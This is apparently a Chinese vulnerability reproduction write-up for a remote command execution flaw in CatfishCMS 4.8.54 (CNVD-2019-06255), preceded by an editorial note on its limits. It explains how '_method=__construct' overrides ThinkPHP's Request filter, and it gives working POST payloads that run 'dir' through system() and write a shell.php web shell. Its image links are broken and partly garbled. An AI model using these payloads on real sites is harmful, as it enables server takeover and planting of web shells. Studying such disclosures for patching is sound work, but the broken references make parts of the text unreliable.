

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：4.8.54; exposed route reaches Request method constructor override; Windows dir example

- **来源与引用处置（1）**：Every image markup is malformed and points partly to unrelated Catfish4.6.15 resources。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

- **结论使用边界（2）**：Describes framework-derived issue, should link ThinkPHP family rather than claim independent root cause。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：No full HTTP request/target route/auth explanation or primary advisory。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（4）**：method=* loses asterisk in one explanatory sentence。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CNVD-2019-06255）CatfishCMS远程命令执行
=========================================

一、漏洞简介
------------

二、漏洞影响
------------

v4.8.54

三、复现过程
------------

### 1、\_method=\_\_construct

CatfishCMS基于thinkPHP5开发。Request类（catfish/library/think/Request.php）用于处理请求。它的成员函数method用于获取请求的类型。

CatfishCMS远程命令执行/media/rId25.png)

application/config.php 中定义了"表单请求类型伪装变量":

CatfishCMS远程命令执行/media/rId26.png)

POST请求参数 " \_method=\_\_construct "，将 \_\_construct
传给了var\_method ，在Request类的method函数中执行后，实现了对Request类的
\_\_construct 构造函数的调用；并且将完整的POST参数传给了构造函数。

### 2、method=\*&filter\[\]=system

catfish/library/think/Request.php模块中的Request类的构造函数：

CatfishCMS远程命令执行/media/rId28.png)

中存在的参数，就取用户传入的值为其赋值。

\_method=\_\_construct 使得 method 函数调用了 \_\_construct 构造函数，
并且将完整的POST参数传递过去。实现了对本类中的 \$method 和 \$filter
两个全局变量的覆盖。

CatfishCMS远程命令执行/media/rId29.png)

CatfishCMS远程命令执行/media/rId30.png)

filter\[\]=system 的补充说明：filter\[\]=system 或者
filter=system都可以，\[\]符号可有可无；system意为执行系统命令。

Method=\* 的补充说明：

method参数的取值限定为：catfish/library/think/Route.php
模块中定义的路由规则。如：GET、POST、PUT、\*
等任何一个值都可以；如果值不在此表或为空，都会报错。

CatfishCMS远程命令执行/media/rId31.png)

### 3、s=dir

application/config.php 中定义PATHINFO变量名为' s
'。可用s传入需要执行的命令，如s=dir

最终的的payload：

    s=dir&_method=__construct&method=*&filter[]=system

\_method=\_\_construct 使得 Request类的method函数调用 \_\_construct
构造函数，并且将完整的payload传递给构造函数；构造函数中对 method
和filter 两个全局变量进行覆盖，method=&filter\[\]=system
；参数s=dir传入需要执行的系统命令 dir 。

    s=echo "shell" >shell.php&filter[]=system&method=*&_method=__construct
